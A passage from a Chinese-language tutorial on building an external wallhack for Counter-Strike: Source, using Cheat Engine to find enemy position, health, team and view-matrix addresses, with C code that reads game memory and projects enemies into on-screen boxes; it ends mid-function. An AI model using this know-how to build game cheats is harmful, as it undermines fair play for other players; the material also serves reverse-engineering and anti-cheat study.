在上方案例中我们通过遍历找到了本人的坐标数据，接下来我们需要找到敌人的坐标数据，寻找敌人坐标数据的方法有很多，这里我们以寻找队友为例，由于我们已经知道了自己的坐标数据，我们就可以利用自己的`Z轴`坐标数据寻找队友的`Z轴`坐标，而一旦找到队友的Z轴坐标就可以通过`-4,-8`的方式得到队友的三维坐标，而队友坐标找到了也就可以确定敌人的坐标了。

首先进入游戏并打开控制台，输入命令`sv_cheats 1`开启作弊模式，并输入`bot_stop 1`暂停机器人的走动，接着输入`bot_add_ct`添加一名反恐精英队友，此时我们会与自己的队友站在同一个高度上，搜索`未知初始值（浮点数）`，接着输入`bot_stop 0`让队友走到一个斜坡上，接着直接将其`bot_stop 1`暂停运动。

此时我在下坡队友在上坡，那么此时我的`Z坐标`数据比队友的要小，也就是相对的队友的坐标比我大，此时我们搜索`值大于（浮点数）`而大于的数据就是我们自己的坐标Z，如下图所示本人的坐标Z为`-122`那么值大于就搜索该数。



接着我们找一个比队友高的位置，此时搜索`值小于（浮点数）`，小于的部分就是我们自己的坐标Z数据，此处搜索`-39`即可。



通过上面的遍历方法，站在下坡搜索值大于，站在上坡搜索值小于，站在与队友平级的地方则寻找值等于，通过不间断的排查读者可找到，当然输出的数据可能会很多此时读者可依次批量锁定这些参数进行验证，此处我们找到的地址有许多，这些地址只要是数值相等的都是可以被使用的，此处就以`0x28BB57E8`为例，将其加入到地址栏中，如下图所示；



通过右键查找改写的内存，此处可以看到一级偏移是`esi+0x288`下一个内存地址是`0x28BB5560`如下图所示；



我们记下`0x28BB5560`并在CE中选择精确扫描四字节，然后就可以看到如下所示的四个绿色基址，这四个地址都可以使用，读者可自行选择，为了课程的通用此处就选择用第一个地址，将该地址加上偏移，即可得到当前第一个队友的Z坐标数据，如下图所示；



当有了这个Z坐标数据，我们就可以在该地址上减去8得到X坐标，减去4得到Y坐标，至此敌人的坐标数据也就被正确的找到了，如下图所示则是我们找到的数据；



接下来就是通过编程的方式首先获取数据，队友数据的获取方法与本人数据完全一致，仅仅只是基地址发生了变化，我们可以看到本人坐标基地址是`0x4F2FEC`而第一个队友的基地址则是`0x4F2FFC`两者的差值是`0x10`，地址也不会有太大的偏差，获取代码也只需要简单的更改一下；

```c
typedef struct
{
    FLOAT 敌人坐标X;
    FLOAT 敌人坐标Y;
    FLOAT 敌人坐标Z;
}敌人坐标数据;

int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"server.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    敌人坐标数据 敌人坐标;

    while (1)
    {
        DWORD 基地址;

        基地址 = ReadMemory<DWORD>(handle, module_base + 0x4F2FFC);

        敌人坐标.敌人坐标X = ReadMemory<FLOAT>(handle, 基地址 + 0x280);
        敌人坐标.敌人坐标Y = ReadMemory<FLOAT>(handle, 基地址 + 0x284);
        敌人坐标.敌人坐标Z = ReadMemory<FLOAT>(handle, 基地址 + 0x288);

        printf("[*] 敌人坐标X = %f | 敌人坐标Y = %f | 敌人坐标Z = %f \n", 敌人坐标.敌人坐标X, 敌人坐标.敌人坐标Y, 敌人坐标.敌人坐标Z);

        Sleep(400);
    }

    system("pause");
    return 0;
}
```

运行上述代码片段，读者即可看到如下输出结果，此时敌人的坐标数据将会被实时输出；



上方我们也说了，本人坐标数据与敌人坐标数据之间的差值是`0x10`，此处的`10`就是敌人与敌人之间的偏移地址，不同的敌人与敌人之间相隔就是`0x10`，如果需要定位到第二个敌人则只需要在`0x4F2FFC`地址之上继续增加`0x10`即可实现；

#### 7.2.6 寻找敌人血量基址

找敌人血量的目的是为了判断敌人是否死亡，这里找血量有两种方式，第一种是找自己的血量，由于我们知道敌人的基地址，所以找到自己血量的偏移就可以通过敌人的基地址定位到敌人血量，而第二种找法是默认搜索`100`，然后打敌人一枪搜索`减少的数值（4字节）`，然后搜索`未变动的数值`，再次打敌人一枪搜索`减少的数值（4字节）`，不断的遍历最后就能找到我们想要的敌人的血量。

首先添加1个机器人，然后搜索100，打敌人一枪搜索减少的数值，然后搜索未变动的数值，再次打敌人一枪搜索减少的数值，注意不要把敌人打死了，不断的遍历最后就能找到我们想要的敌人的血量，通过血量则可判断该地人似否死亡。



我们以`0x360D5364`地址为例，通过右键选择访问地址，之所以选择访问而不是改写是因为，人物血量是由一个定时器循环刷新的，此处选择访问最为合适，经过分析可知，如下图中`ebx+0xe4`则是一级偏移，记下该偏移地址，并继续搜索`0x360D5280`这个内存地址。



通过十六进制的搜索，向下拉即可得到当前血量的基地址，我们以`server.dll+0x4F2FFC`为例，该地址加上血量偏移地址`0xE4`则是当前第一个敌人的血量了，如下图所示；



此时血量的偏移地址就是`0xE4`敌人的血量就可以通过`server.dll + 0x4F2FFC + 0xE4`来获取到，而我们自己的基地址是`0x4F2FEC`则通过`server.dll+0x4F2FEC+0xE4`就可以得到本人的血量啦，接着就是编程实现读写功能，如下所示；

```c
int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"server.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    while (1)
    {
        DWORD 指针 = ReadMemory<DWORD>(handle, module_base + 0x4F2FFC);
        DWORD 血量 = ReadMemory<DWORD>(handle, 指针 + 0xE4);
        if (血量 == 1)
        {
            printf("[-] 敌人已被打死 \n");
        }
        printf("[+] 敌人血量 = %d \n", 血量);
        Sleep(500);
    }

    system("pause");
    return 0;
}
```

获取敌人血量的方法也很容易，只需要依次读取特定偏移值即可，当然如果想要获取其他敌人的血量，只需要在当前地址的基础之上每次加`0x10`即可，因为这个值就是人物的偏移地址，读者可自行验证；



#### 7.2.7 寻找玩家数量基址

玩家数量的查找非常简单，大部分的FPS游戏都有人物统计菜单，按下`TAB`键则可看到，我们可以通过查看人物数量来查找，在CS起源中通过小键盘上的`+`加号可增加一个机器人，通过不断地按下加号键，并搜索`精确数值（4字节）`最终可排查出当前玩家数量，如下图则是经过排查后的输出结果；



实现代码很容易，只需要读取一个指针即可，如下所示；

```c
int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"server.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    while (1)
    {
        DWORD 玩家数 = ReadMemory<DWORD>(handle, module_base + 0x4EEFE0);
        printf("[+] 玩家数量 = %d \n", 玩家数);
        Sleep(500);
    }

    system("pause");
    return 0;
}
```

如下图所示则是输出玩家数的效果图，此处的数量是算自己在内的，读者也可自行寻找不算自己在内的指针；



#### 7.2.8 寻找当前阵营基址

由于我们寻找到的人物基地址包含了敌人与本人，接下来我们就需要区分当前人物是敌人还是队友，此处就要用到阵营判断条件，阵营的寻找也很容易实现，首先进入游戏，按下`M`键可以切换阵营，通过不断地切换，然后搜索即可找到标识本人阵营的基地址与偏移地址，然后通过其他人的基地址加我们自己的偏移，即可得到其他人的阵营数据，一般阵营会用`(1,2,3,4)`这些数字来表示。

首先选择搜索`未知初始值（4字节）`，然后搜索`未变动的数值`，此时按下M键切换阵营，搜索`变动的数值`，通过这种方式，依次循环查找，最终即可找到本人阵营地址标识，如下所示；



接着在该地址之上查找访问，并可看到如下图所示输出结果，其中一级偏移为`eax+0x1F4`，我们继续搜索`0x2D4E64F8`这个内存地址；



经过搜索后即可看到如下所示的基地址信息，我们选择使用`server.dll+0x4F2FEC`为基地址，并加上`0x1F4`得到当前人物的阵营信息，此处的阵营代表的是本人阵营，而此处的`0x4F2FEC`是我们自己的人物基地址，此处如果将该地址替换为敌人的人物基地址也就是获取敌人阵营了，如下图所示；



接着我们通过编程的方式分别输出本人阵营与敌人阵营状态，这段代码的实现也很容易理解，如下所示；

```c
int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    printf("[+] 进程PID = %d \n", Pid);

    HANDLE handle = GetProcessHandle(Pid);
    printf("[+] 进程句柄 = 0x%x \n", handle);

    DWORD module_base = GetProcessModuleHandle(Pid, L"server.dll");
    printf("[*] 模块句柄 = 0x%x \n", module_base);

    while (1)
    {
        DWORD 本人阵营指针 = ReadMemory<DWORD>(handle, module_base + 0x4F2FEC);
        DWORD 敌人阵营指针 = ReadMemory<DWORD>(handle, module_base + 0x4F2FFC);

        DWORD 本人阵营状态 = ReadMemory<DWORD>(handle, 本人阵营指针 + 0x1F4);
        DWORD 敌人阵营状态 = ReadMemory<DWORD>(handle, 敌人阵营指针 + 0x1F4);

        printf("[+] 本人阵营 = %x | 敌人阵营 = %x \n", 本人阵营状态, 敌人阵营状态);

        Sleep(500);
    }

    system("pause");
    return 0;
}
```

如下图所示，运行后即可输出本人与敌人的阵营状态，一般用数字来代替；



### 7.3 三角函数算法透视

在类FPS游戏中，一旦获取了所需的数据，包括FOV视场角、自身坐标、鼠标角度、敌人坐标、玩家数量、玩家状态以及敌人数组偏移等基址数据，我们就可以开始分析和计算绘制方框的思路了。

首先，我们需要将敌人的三维坐标转换为屏幕上的二维坐标，以便在屏幕上绘制方框。通过使用三角函数来计算敌人相对于自己的角度。根据敌人的坐标和自身的坐标，我们可以计算出敌人与自身之间的水平距离和垂直距离。然后，通过反正切函数来计算敌人与自身之间的夹角。夹角的计算需要根据敌人所在的象限进行适当的调整，确保角度的准确性。

在计算了敌人相对于自身的角度后，我们可以通过一些几何和数学运算，结合屏幕的分辨率和FOV视场角，来确定敌人在屏幕上的坐标位置。根据敌人在屏幕上的坐标，就可以绘制相应的方框来标识敌人的位置。

#### 7.3.1 第一象限求角

如果敌人位于第一象限，并且我们想要求得鼠标指向与敌人之间的夹角`b`，可以使用反正切函数`（arctan）`来计算该夹角。具体步骤如下：

 - 获取敌人的相对坐标（相对于本人坐标）：dx（水平方向上的距离）和dy（垂直方向上的距离）。
 - 使用反正切函数（通常是 `atan2(dy, dx)`）计算角度。
 - 得到的角度是以弧度表示的，如果需要将其转换为度数，可以使用相应的角度转换公式。

反正切函数的取值范围通常是从 `-π（负半轴）`到 `π（正半轴）`，可以根据需要进行角度的调整和转换。



如上图，我们知道自己与敌人的相对`(X,Y)`距离，可以使用`反正切`公式求出`a角`的度数。而我们最终的目的是要求出我们的鼠标指向与敌人之间的`夹角b`，此时我们可以通过已知的`鼠标角度C`减去`a`既可得到`b`的角度。

#### 7.3.2 第二象限求角

如果敌人位于第二象限，并且我们的鼠标仍然指向第一象限，我们可以通过计算敌人与X轴之间的夹角度数来获得所需的角度。具体步骤如下：

- 计算敌人与X轴的直线斜率，可以使用斜率公式：`m = (Y_enemy - 0) / (X_enemy - 0)`，其中`（0，0）`是参考点（例如，玩家的位置）。

- 使用反正切函数（通常是 `atan`）计算斜率`m`的角度。这将给出斜线与`X轴`之间的夹角度数。


读者需要注意，反正切函数通常返回的是弧度值，如果需要将其转换为度数，可以使用相应的角度转换公式。


如上图所示，由于`(X,Y)黑色`是已知条件，我们可以通过`X`比`Y`求`反正切`，即可得到`a角`的度数，然后与`90度`相加，即可求出敌人当前坐标位置与`X轴`之间的夹角度数。

#### 7.3.3 第三四象限求角

在敌人位于第三和第四象限的情况下，我们仍然可以通过计算敌人位置与X轴之间的夹角来获得所需的角度。敌人在第三与第四象限与上图差不多，最终目的就是求敌人的位置与X轴之间的夹角，第三象限应该加`180`度，第四象限加上`270`度数。

具体步骤如下：

 - 计算敌人与X轴的直线斜率，使用斜率公式：`m = (Y_enemy - 0) / (X_enemy - 0)`，其中`（0，0）`是参考点（例如，玩家的位置）。
 - 使用反正切函数（通常是 `atan`）计算斜率`m`的角度。这将给出斜线与X轴之间的夹角度数。
 - 如果敌人位于第三象限，将计算得到的夹角度数加上`180`度。
 - 如果敌人位于第四象限，将计算得到的夹角度数加上`270`度。

读者需要注意，反正切函数通常返回的是弧度值，如果需要将其转换为度数，可以使用相应的角度转换公式。

**四种象限重合特殊情况**

在某些特殊情况下，我们可以直接确定敌人与X轴之间的夹角度数。如果敌人在第一象限且与X轴重合，那么敌人与X轴为之间的夹角度数必然为零度，同理如果与Y轴重合的话，那么X轴与敌人之间的夹角度数为90度，以此类推就是这四种特殊情况。

以下是这些特殊情况的角度计算：

 - 如果敌人位于第一象限且与X轴重合，则敌人与X轴之间的夹角度数为0度。
 - 如果敌人位于第一象限且与Y轴重合，则敌人与X轴之间的夹角度数为90度。
 - 如果敌人位于第二象限且与X轴重合，则敌人与X轴之间的夹角度数为180度。
 - 如果敌人位于第二象限且与Y轴重合，则敌人与X轴之间的夹角度数为90度。

对于这些特殊情况，我们可以直接确定夹角的度数，而不需要进行复杂的计算。这些情况的处理可以作为角度计算的特殊情况处理。


上方的4条象限与特殊情况，如果需要展开的话又会是8种不同的情况，如下所示代码就是这八种不同情况，调试下面的这段代码会发现一个缺陷，那就是当我们绕着敌人转圈时，偶尔会出现一个大于180度的角度，这又是两种非常特殊的情况。

```c
// --------------------------------------------------------------------------------------------------
// 求自己鼠标角度与敌人之间的夹角度数
// --------------------------------------------------------------------------------------------------

// 敌人和自己建立的坐标系X轴重合
if (相对X坐标 < 0 && 相对Y坐标 == 0)
{
  // x角度是求自己和敌人连线与正x轴夹角
  X轴角度 = 0;
}

// 敌人在第一象限
if (相对X坐标 < 0 && 相对Y坐标 < 0)
{
  // 其中的 X180/PI 将弧度转换为角度的固定写法
  X轴角度 = 求反正切(取绝对值(相对Y坐标 / 相对X坐标)) * 180 / PI;
}

// 敌人在正Y轴第一象限
if (相对X坐标 == 0 && 相对Y坐标 < 0)
{
  X轴角度 = 90;
}

// 敌人在第二象限
if (相对X坐标 > 0 && 相对Y坐标 < 0)
{
  X轴角度 = 90 + 求反正切(取绝对值(相对X坐标 / 相对Y坐标)) * 180 / PI;
}

// 敌人在负x轴
if (相对X坐标 > 0 && 相对Y坐标 == 0)
{
  X轴角度 = 180;
}

// 敌人在第三象限
if (相对X坐标 > 0 && 相对Y坐标 > 0)
{
  X轴角度 = 180 + 求反正切(取绝对值(相对Y坐标 / 相对X坐标)) * 180 / PI;
}

// 敌人在y负半轴
if (相对X坐标 == 0 && 相对Y坐标 > 0)
{
  X轴角度 = 270;
}

// 敌人在第四象限
if (相对X坐标 < 0 && 相对Y坐标 > 0)
{
  X轴角度 = 270 + 求反正切(取绝对值(相对X坐标 / 相对Y坐标)) * 180 / PI;
}
```

特殊情况，当敌人在第四象限且鼠标角度依然在指向第一象限的情况下，则会出现大于180度的角。

在这种情况下，我们可以采取以下步骤来计算夹角的度数：

 - 使用反正切函数（atan2）计算鼠标指向与敌人之间的绝对夹角，得到的结果为[-π, π]之间的弧度值。
 - 将弧度值转换为角度值，一般乘以180/π进行转换，得到的结果为[-180, 180]之间的角度值。
 - 如果计算得到的角度值小于0，说明鼠标指向的角度超过了180度，此时可以加上360度来得到正确的夹角度数。

这样，我们就能够正确计算出第四象限情况下敌人与X轴之间的夹角度数，包括大于180度的情况。



如上图所示，我们的目标是求鼠标角度与敌人之间的夹角度数，而此时的鼠标指向第一象限，而敌人却在第四象限上，我们用360度减去e角度（e = 敌人坐标与x轴之间的夹角度数），即可得到K角度，用K角度加上M角度，即可得到鼠标与敌人之间的夹角度数，另一种特殊情况敌人与鼠标角度调换位置求角，最终可总结为如下代码；

```c
// --------------------------------------------------------------------------------------------------
// 横角度计算
// --------------------------------------------------------------------------------------------------

// 这个横角度要满足，以你鼠标冲着敌人为原点（假如左边为正，则右边要为负）
横角度 = 自己鼠标角度.X轴 - X轴角度;

// 求自己鼠标位置和敌人的夹角,其中你在原点鼠标指向第一象限敌人在第四象限一种特殊情况
if (X轴角度 - 自己鼠标角度.X轴 > 180)
{
  // 这个横角度就是特殊情况,求出来还是自己鼠标位置和敌人的角度
  横角度 = 360 - X轴角度 + 自己鼠标角度.X轴;
}

// 求自己鼠标位置和敌人的夹角,其中你在原点你鼠标指向第四象限，敌人在第一象限
if (自己鼠标角度.X轴 - X轴角度 > 180)
{
  // 这个横角度就是特殊情况,求出来还是自己鼠标位置和敌人的角度
  横角度 = (360 + X轴角度 - 自己鼠标角度.X轴) * -1;
}
// 输出调试文本 (“当前自己与敌人的夹角： ” ＋ 到文本 (横角度) ＋ “ 度”)
```

#### 7.3.4 分析FOV视场角度

FOV（Field of View，视场角）是指摄像机在游戏中所能看到的范围或角度。它决定了玩家在游戏中的视野范围。在游戏中，摄像机将游戏场景投影到二维平面上，以便显示给玩家。FOV决定了摄像机所能捕捉到的场景范围的大小。较大的`FOV`表示更宽广的视野，玩家能够看到更多的游戏场景；而较小的`FOV`则表示较窄的视野，玩家只能看到较少的游戏场景，但物体会显得更大。FOV的大小通常以角度来表示，常见的`FOV`值在`60`度到`90`度之间。


如上图所示，摄像机与屏幕之间的夹角统称为视场角，游戏中的准星位置到屏幕的边缘是`FOV`的一半，以屏幕分辨率`1024x768`为例，当`FOV`为`90`度时，则准心与屏幕的垂线构成`45`度等腰直角三角形，此时的摄像机到屏幕的距离就是一半屏幕长度`（1024/2 = 512）`的大小。

#### 7.3.5 三维横坐标转屏幕X坐标

将三维矩阵中的敌人坐标数据，转换为屏幕的X坐标。如下图所示，我们需要求出敌人位置的坐标数据，可以使用 `(x/y) x (1024/2) ` 最后还需要加上`P`的长度，由于窗口的总长度是`1024`那么我们可以直接除以`2`得到另一半的长度`(512)`，将敌人位置与另一半长度相加就是敌人投射在屏幕上的`X`坐标，但是此时我们并不知道`(X,Y)`的长度，所以需要先求出`(X,Y)` 。



如下图所示，我们需要求出`(X,Y)`的距离，此时我们已经知道了`M`和`C`的长度，则此时我们可以直接使用勾股定理`M的平方 + C的平方 （开方）= Z`，得到`Z`之后，通过 `sin a = (x/z) => sin a * z = X` 此时我们已经得到的X的长度，接着 `cos a =(y/z) => cos a * z = Y` 此时我们也得到了`Y`的长度，最后 `(x/y) x 512 + 512` 即可得到敌人位置，投射到屏幕上的`X`坐标。



#### 7.3.6 三维纵坐标转屏幕Y坐标

三维横坐标如果读者能够理解，那么三维纵坐标转换为Y坐标也应该很容易，下图中通过`tan`公式即可推导出`d`与`c`的距离，然后将`d`与`c`的长度相加，即可得到鼠标指向与敌人位置之间的距离，然后再加上屏幕高度的一半，本游戏屏幕高度为`768`，所以要加上`384`即可。



最终屏幕横坐标与纵坐标的转换算法如下所示，读者可自行理解这个流程；

```c
// --------------------------------------------------------------------------------------------------
// 游戏中的坐标转换为屏幕坐标算法
// --------------------------------------------------------------------------------------------------
对边值 = 求正弦(横角度 *  3.1415926535 / 180) * 二维人敌距离;
邻边值 = 求余弦(横角度 * 3.1415926535 / 180) * 二维人敌距离;

// 假设屏幕大小为 1024x768 则：1024/2=512(屏幕坐标X)    768/2=384(屏幕坐标Y)
// 取整 (游戏窗口宽度 ÷ 2) => 获取的是游戏窗口宽度的一半,也就是1024/2 = 512
// 取整 (游戏窗口高度 ÷ 2) => 获取的是游戏高度的一半，也就是768/2 = 384

// 此处比值关系变量 => 是用来调节距离文字所在敌人的什么位置的
比值关系 = 三维人敌距离 / 500;

屏幕坐标X = 取整(游戏窗口宽度 / 2) - 15 / 比值关系 + 对边值 / 邻边值 * 取整(游戏窗口宽度 / 2);  // 锁定横轴
// 对边坐标Y = 求正切(自己鼠标角度.Y轴 * 3.1415926535 / 180) * 二维人敌距离 + 相对Z坐标 + 10;      // 锁定纵轴，也就是上下之间锁定

对边坐标Y = 求正切(自己鼠标角度.Y轴 * 3.1415926535 / 180) * 二维人敌距离 + 相对Z坐标 - 10;      // 锁定纵轴，也就是上下之间锁定

屏幕坐标Y = 取整(游戏窗口高度 / 2) + 对边坐标Y / 二维人敌距离 * 取整(游戏窗口宽度 / 2);

// 如果背对敌人则不绘制
if (取绝对值(横角度) < 45)
{
  // printf("屏幕坐标X = %f | 屏幕坐标Y = %f | 距离 = %f \n", 屏幕坐标X, 屏幕坐标Y, 二维人敌距离);
  char szString[256] = { 0 };

  sprintf(szString, "%d / %d", (DWORD)二维人敌距离, (DWORD)敌人血量);
  DrawString(szString, -1, 取整(屏幕坐标X), 取整(屏幕坐标Y), D3DCOLOR_RGBA(255, 0, 0, 255));

  DrawBox(屏幕坐标X, 屏幕坐标Y, 35 / 比值关系, 80 / 比值关系, 1, D3DCOLOR_RGBA(0, 160, 32, 240));
}
```

将上述功能进行整合，最后的透视效果如下，此处游戏屏幕必须为`1024x768`，三维坐标转屏幕坐标算法中已经写死了，其他屏幕尺寸需要自行调整代码中的比值关系与相应数值，由于透视采用的是外部绘制，所以可能绘制时会出现短暂的闪烁，但不影响使用；



### 7.4 矩阵透视算法分析

矩阵透视是透视投影的一种常见实现方式。通过矩阵变换，将三维场景中的物体坐标转换为屏幕坐标，同时考虑物体相对于观察者的距离，以产生透视效果。透视投影通常涉及到投影矩阵和相机视图矩阵的组合。

投影矩阵是一个特殊的矩阵，用于将三维坐标变换到二维坐标空间。它可以考虑到透视效果，即远处物体看起来较小，近处物体看起来较大。投影矩阵可以根据透视投影的需求进行调整，如设置视场角、近裁剪面和远裁剪面等参数。

相机视图矩阵用于定义观察者的位置和方向。它确定了观察者的视点和视线方向，使得场景可以根据观察者的位置和朝向进行正确的投影和渲染。通过组合投影矩阵和相机视图矩阵，可以将三维场景中的物体坐标转换为屏幕上的二维坐标，从而实现透视投影效果。

#### 7.4.1 寻找世界矩阵

想要实现矩阵透视，我们需要找到矩阵的地址，通常`FPS`游戏会采用`4*4`的矩阵模式，寻找矩阵地址的方法就是购买一把狙击枪，首先搜索`未知初始化（浮点数）`数据，通过不断地移动自己相机的位置，然后开镜搜索`变动的数值`，移动身体搜索`变动数值`，或者是开镜移动身体搜索`变动的数值`，这样配合来找，最终可以锁定在`2000`个数值左右，矩阵一般为全局变量，通常会保存为固定的一个值，在寻找时可以重点关注全局变量，其次矩阵地址一般并不是单一出现的，如果全局变量内存在有独立的数值那么这种的就可以直接排除掉；



如上所示这里我们随机选取四个不同类型的内存地址，并依次观察这些内存地址，这里笔者就直接说了，内存矩阵的特点是当人物鼠标不同而进行跳跃是矩阵内的三个参数将会发生变化，这三个值代表的就是本人的坐标参数，而当开镜时矩阵头会发生变化，通常矩阵头晃动鼠标不会出现大于`3`的值，一般会在`-0.x - 1.x`之间徘徊，竖矩阵的第三个值，通常为`0`，就算乱晃，也会保持`0`的位置。同时在开镜时，矩阵的第七个参数，将会有规律的变化，一般这个数据会在`1.33,3.66,10.12`之间自由切换，读者可自行打开`0x669B6EF0`这个内存地址，观察矩阵的变化规律；



如下表是一个标准的`4*4`竖矩阵，及一个标准的`4*4`横矩阵，读者可自行对比两者的差异，并总结出他们直接的异同点；

| 4x4 竖矩阵 | 4x4 竖矩阵 | 4x4 竖矩阵 | 4x4 竖矩阵 |
| ---------- | ---------- | ---------- | ---------- |
| 0.74       | -0.09      | 0.00       | -124.05    |
| 0.07       | 0.54       | 1.22       | -1924.48   |
| 0.11       | 0.91       | -0.41      | -2700.54   |
| 0.11       | 0.91       | -0.41      | -2692.87   |

| 4x4 横矩阵 | 4x4 横矩阵 | 4x4 横矩阵 | 4x4 横矩阵 |
| ---------- | ---------- | ---------- | ---------- |
| 0.74       | -0.09      | 0.00       | 0.91       |
| 0.07       | 0.54       | 1.22       | -0.41      |
| 0.11       | 0.91       | -0.41      | -0.41      |
| -124.05    | -1924.48   | -2700.54   | -2692.87   |

当然在某些游戏中很可能目标游戏使用的是`3*4`的矩阵类型，两者的区别只是位置的变化，只要在解析时对其进行转换即可正常使用，并不影响效果；

| 3x4竖矩阵 | 3x4竖矩阵 | 3x4竖矩阵 | 3x4竖矩阵 |
| --------- | --------- | --------- | --------- |
| 0.74      | -0.09     | 0.00      | -124.05   |
| 0.07      | 0.54      | 1.22      | -1924.48  |
| 0.11      | 0.91      | -0.41     | -2700.54  |
| 0.00      | 0.00      | 0.00      | 1.00      |

| 3x4横矩阵 | 3x4横矩阵 | 3x4横矩阵 | 3x4横矩阵 |
| --------- | --------- | --------- | --------- |
| 0.74      | -0.09     | 0.00      | 0.0       |
| 0.07      | 0.54      | 1.22      | 0.0       |
| 0.11      | 0.91      | -0.41     | 0.0       |
| -124.05   | -1924.48  | -2700.54  | 1.00      |

由于本节使用的矩阵为`4*4`竖矩阵，则本次将实现读取该矩阵并解析功能，读取该矩阵很容易实现，首先定义一个`ViewWorld`的数组，并通过调用`ReadProcessMemory`函数直接读取矩阵地址，此处读取长度为`64`字节，至于为什么是`64`字节，在下方代码中有解释；

```c
int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    DWORD handle = (DWORD)GetProcessHandle(Pid);

    DWORD module_base = GetProcessModuleHandle(Pid, L"engine.dll");
    DWORD 矩阵基地址 = module_base + 0x596EF0;

    printf("模块句柄: %d --> 矩阵基址: 0x%x \n\n", module_base, 矩阵基地址);

    // 定义矩阵
    FLOAT ViewWorld[4][4] = { 0 };
    
    while (1)
    {
        // 读入矩阵 [竖矩阵]
        // 矩阵 ViewWorld[4][4] => 4*4=16 => 16*word = 64
        ReadProcessMemory((HANDLE)handle, (PVOID)矩阵基地址, ViewWorld, 64, 0);

        printf("[0][0] = %.4f | [0][1] = %.4f | [0][2] = %.4f | [0][3] = %.4f \n", ViewWorld[0][0], ViewWorld[0][1], ViewWorld[0][2], ViewWorld[0][3]);
        printf("[1][0] = %.4f | [1][1] = %.4f | [1][2] = %.4f | [1][3] = %.4f \n", ViewWorld[1][0], ViewWorld[1][1], ViewWorld[1][2], ViewWorld[1][3]);
        printf("[2][0] = %.4f | [2][1] = %.4f | [2][2] = %.4f | [2][3] = %.4f \n", ViewWorld[2][0], ViewWorld[2][1], ViewWorld[2][2], ViewWorld[2][3]);
        printf("[3][0] = %.4f | [3][1] = %.4f | [3][2] = %.4f | [3][3] = %.4f \n", ViewWorld[3][0], ViewWorld[3][1], ViewWorld[3][2], ViewWorld[3][3]);
        printf("\n\n");
        Sleep(2000);
    }

    system("pause");
    return 0;
}
```

输出效果如下图所示，我们可以看到矩阵数据已经被完整的读入到了矩阵数组内，此时我们就得到了实现透视的所有参数；



当然了上述方法只能够读取到竖矩阵中的数据，而有时我们需要将竖矩阵转换为横矩阵，此时我们只需要将数组内的元素进行颠倒即可，而这个交换规则读者可参考上方的矩阵转换盒，如下是具体的转换实现代码；

```c
// 4*4 竖矩阵转为恒矩阵
VOID 竖矩阵转横矩阵(IN FLOAT InViewWorld[4][4], OUT FLOAT OutViewWorld[4][4])
{
    /*
    ViewWorld[0][0] = *(FLOAT*)(OutViewWorld);
    ViewWorld[0][1] = *(FLOAT*)(OutViewWorld+0x4);
    ViewWorld[0][2] = *(FLOAT*)(OutViewWorld+0x8);
    ViewWorld[0][3] = *(FLOAT*)(OutViewWorld+0xc);

    ViewWorld[1][0] = *(FLOAT*)(OutViewWorld+0x10);
    ViewWorld[1][1] = *(FLOAT*)(OutViewWorld + 0x14);
    ViewWorld[1][2] = *(FLOAT*)(OutViewWorld + 0x18);
    ViewWorld[1][3] = *(FLOAT*)(OutViewWorld + 0x1c);

    ViewWorld[2][0] = *(FLOAT*)(OutViewWorld + 0x20);
    ViewWorld[2][1] = *(FLOAT*)(OutViewWorld + 0x24);
    ViewWorld[2][2] = *(FLOAT*)(OutViewWorld + 0x28);
    ViewWorld[2][3] = *(FLOAT*)(OutViewWorld + 0x2c);

    ViewWorld[3][0] = *(FLOAT*)(OutViewWorld + 0x30);
    ViewWorld[3][1] = *(FLOAT*)(OutViewWorld + 0x34);
    ViewWorld[3][2] = *(FLOAT*)(OutViewWorld + 0x38);
    ViewWorld[3][3] = *(FLOAT*)(OutViewWorld + 0x3c);
    */

    /*
    转换前 = 竖矩阵
    [0][0] | [0][1] | [0][2] | [0][3]
    [1][0] | [1][1] | [1][2] | [1][3]
    [2][0] | [2][1] | [2][2] | [2][3]
    [3][0] | [3][1] | [3][2] | [3][3]

    转换后 = 恒矩阵
    [0][0] | [0][1] | [0][2] | [3][0]
    [1][0] | [1][1] | [1][2] | [3][1]
    [2][0] | [2][1] | [2][2] | [3][2]
    [0][3] | [1][3] | [2][3] | [3][3]
    */

    // 恒矩阵[0][0] = 竖矩阵[0][0]
    OutViewWorld[0][0] = InViewWorld[0][0];

    // 恒矩阵[0][1] = 竖矩阵[0][1]
    OutViewWorld[0][1] = InViewWorld[0][1];

    // 恒矩阵[0][2] = 竖矩阵[0][2]
    OutViewWorld[0][2] = InViewWorld[0][2];

    // 恒矩阵[3][0] = 竖矩阵[0][3]
    OutViewWorld[3][0] = InViewWorld[0][3];

    // ---------------------------------------------------------
    // 恒矩阵[1][0] = 竖矩阵[1][0]
    OutViewWorld[1][0] = InViewWorld[1][0];

    // 恒矩阵[1][1] = 竖矩阵[1][1]
    OutViewWorld[1][1] = InViewWorld[1][1];

    // 恒矩阵[1][2] = 竖矩阵[1][2]
    OutViewWorld[1][2] = InViewWorld[1][2];

    // 恒矩阵[3][1] = 竖矩阵[1][3]
    OutViewWorld[3][1] = InViewWorld[1][3];

    // ---------------------------------------------------------

    // 恒矩阵[2][0] = 竖矩阵[2][0]
    OutViewWorld[2][0] = InViewWorld[2][0];

    // 恒矩阵[2][1] = 竖矩阵[2][1]
    OutViewWorld[2][1] = InViewWorld[2][1];

    // 恒矩阵[2][2] = 竖矩阵[2][2]
    OutViewWorld[2][2] = InViewWorld[2][2];

    // 恒矩阵[3][2] = 竖矩阵[2][3]
